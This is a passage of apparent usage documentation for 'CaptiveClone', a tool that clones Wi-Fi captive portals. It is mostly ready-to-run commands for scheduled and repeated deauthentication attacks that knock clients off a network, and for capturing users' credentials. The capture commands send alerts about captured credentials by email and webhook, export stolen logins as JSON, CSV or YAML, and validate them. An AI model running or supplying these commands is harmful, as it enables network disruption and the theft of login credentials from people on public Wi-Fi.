 Schedule deauthentication for specific durations:

```bash
sudo python captiveclone.py deauth 00:11:22:33:44:55 --interface wlan0 --duration 30 --pause 10 --cycles 3
```

### Client Blacklisting

Prevent deauthentication of specific clients:

```bash
sudo python captiveclone.py deauth 00:11:22:33:44:55 --interface wlan0 --all --blacklist AA:BB:CC:DD:EE:FF
```

## Credential Capture Options

### Real-time Notifications

Configure real-time notifications for captured credentials:

```bash
sudo python captiveclone.py capture --port 8080 --notify-email admin@example.com --notify-webhook https://example.com/hook
```

### Custom Export Formats

Export captured credentials in different formats:

```bash
sudo python captiveclone.py capture --port 8080 --output captures/ --format json,csv,yaml
```

### Field Validation

Enable validation for captured credentials:

```bash
sudo python captiveclone.py capture --port 8080 --validate
```

### Encryption Options

Configure custom encryption for sensitive fields:

```bash
sudo python captiveclone.py capture --port 8080 --encrypt --key-file custom_key.key
```

## Database Customization

### Using PostgreSQL

Configure CaptiveClone to use PostgreSQL instead of SQLite:
